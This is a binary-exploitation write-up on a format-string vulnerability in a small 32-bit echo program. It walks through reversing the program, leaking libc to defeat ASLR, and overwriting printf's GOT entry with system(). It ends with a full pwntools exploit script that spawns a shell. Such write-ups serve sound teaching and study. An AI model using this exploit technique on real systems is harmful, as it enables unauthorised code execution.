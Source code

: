 ```yaml
---
title: Simple Echo - Format String Vulnerability Exploitation
slug: simple-echo
published: 2022-10-16
tags: [format string, aslr, pwn]
category: Other writeups
description: Exploitation of a format string vulnerability with ASLR enabled
---
```


## About the binary

[Link to binary](/files/simple-echo/simple_echo)

This binary was sent to me by a friend, asking me if it can be exploited.
He told me that the vulnerability doesn't seem to be a buffer overflow,
and that he didn't find any other ways to attack it.

---

## Initial Exploration

Let's see what kind of binary we're working on.

```
$ file simple_echo
simple_echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=208d64568158fab20eff47c6bc1351e3557076d0, not stripped
$ pwn checksec simple_echo
[*] '/path/to/simple_echo'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

It's nice to see that the binary is dynamically linked and is not stripped.
This helps taking less time on reversing the binary (hopefully)
and have more time figuring out the exploit.

## Reversing the binary

The `main` function simply calls a function named `cat` after a setvbuf

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  cat();
  return 0;
}
```

And `cat` goes in a loop, where it reads stdin, stores to buffer, then prints out the buffer for every read using a `printf`.

```c
ssize_t cat()
{
  ssize_t result; // eax
  char format[256]; // [esp+Ch] [ebp-10Ch] BYREF
  ssize_t v2; // [esp+10Ch] [ebp-Ch]

  v2 = 0;
  while ( 1 )
  {
    result = read(0, format, 0xFFu);
    v2 = result;
    if ( result <= 0 )
      break;
    format[v2] = 0;
    printf(format);
  }
  return result;
}
```

And for `printf`, it's a jump to an address that is to be provided after loading libc.
This is because the implementation for printf is loaded dynamically.

```asm
  jmp     *0x804A010
```

## Strategy

We know how we can use printf to peek the values on the stack, and to write stuff.

Now with these techniques in mind, we want to have some strategy
when writing our exploit.

Fundamental Goal: have power on where we can write with `%n` and be able to compute how many characters to print.

Ultimate Goal: Overwrite address of printf in got so it goes to system instead, making the program
an interactive shell, basically.

1. We can use the **buffer** used by read. That's actually plenty of space! We will write the addresses we will overwrite there, and we will put the format string payload there as well.
2. We need to find where the buffer is on the stack. Recall accessing nth argument of printf.
3. Enter the addresses for the half-byte overwrites
4. Compute the number of chars to print for one half of the 4 bytes then overwrite.
5. Compute the number of chars to print for the other half of the 4 bytes then overwrite.
6. Any lines to be entered from here on should be passed to system() instead of printf()

### Defeating Address Space Layout Randomization (ASLR)

Modern computers use address space layout randomization (ASLR) for loading dynamically
linked libraries. Because libc is one such library, the loaded addresses
for the libc functions we see during debugging actually don't necessarily show up
when we run the binary without debugging. They get randomized!
How can we defeat ASLR to have a consistent exploit?

We still have a good amount of control over the program with the format string vulnerability.
In fact, our control is so strong we can still determine where in the memory
a libc function is during runtime.
We can look up the offset of that libc function in the libc file being loaded,
and figure out the libc base address after being loaded dynamically, leaking the whole of libc
overall, as we can map all the other libc functions during runtime.

To have a consistent exploit, we leak the libc base address using the
format string vulnerability before we proceed to overwriting addresses.

## Exploit code

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./simple_echo")
p = binary.process()

# ====== LEAK =======

libc_start_main_reloc = 0x0804a014 # where pointer to libc_start_main is stored

# libc function offsets (this varies depending on the system's libc; find it yourself)
libc_start_main_offset = 0x0001f170 # for leaking libc address
system_offset = 0x00049680          # our target value

exploit = b""
exploit += p32(libc_start_main_reloc)
exploit += b"%7$4s"

log.info("leaking libc address")
log.info("Leak payload: %s" % repr(exploit))

p.sendline(exploit)
p.recv(4) # we don't need this (this is just an echo of libc_start_main_reloc)
leak = u32(p.recv(4)) # get the next four-byte chunk (this is the leaked address)
p.recvline() # the rest is junk to us
libc_base = leak - libc_start_main_offset

log.info("libc is leaked! base address: %s" % hex(libc_base))

# ====== OVERWRITE =======

printf_reloc = 0x0804A010 # this is where we will overwrite

# we can now figure out where system() will be
system = libc_base + system_offset

# for overwriting lower two bytes
lower_half_adjustment = ((system & 0xffff) - 8)

exploit = b""
exploit += p32(printf_reloc)
exploit += p32(printf_reloc + 2)
exploit += b"%7$" + b"%dx" % lower_half_adjustment
exploit += b"%7$hn"

# for overwriting upper two bytes
upper_half_adjustment = (system >> 16) - lower_half_adjustment - 8

exploit += b"%8$" + b"%dx" % upper_half_adjustment
exploit += b"%8$hn"

log.info("overwrite payload: %s", repr(exploit))

p.sendline(exploit)
p.recvline()
log.info("overwrite payload sent. getting shell now weeeeee.")
log.info("note: Ctrl+C or Ctrl+D to close")

p.interactive()
```
